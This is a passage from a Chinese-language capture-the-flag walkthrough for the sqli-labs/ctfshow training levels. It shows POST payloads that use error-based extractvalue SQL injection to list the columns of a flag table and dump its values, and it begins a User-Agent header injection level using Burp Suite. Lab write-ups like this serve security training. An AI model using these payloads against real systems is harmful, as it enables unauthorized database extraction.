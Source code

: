 ~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow' and table_name='flag'),0x7e))--+&submit=Submit
~~~



+ 爆字段值

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(flag4) from ctfshow.flag),0x7e))--+&submit=Submit

倒着读
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select reverse(group_concat(flag4)) from ctfshow.flag),0x7e))--+&submit=Submit
~~~



### Level-18 UserAgent头注入

+ 首先启动<code>burpsuite</code>和打开<code>sqli-labs</code>网站第十八关

![Less-18_1](./img/Less-18_1.PNG)



+ 用账号<code>dumb</code>和密码<code>dumb</code>测试，发现页面会展示<code>ip</code>地址和<code>user-agent</code>头
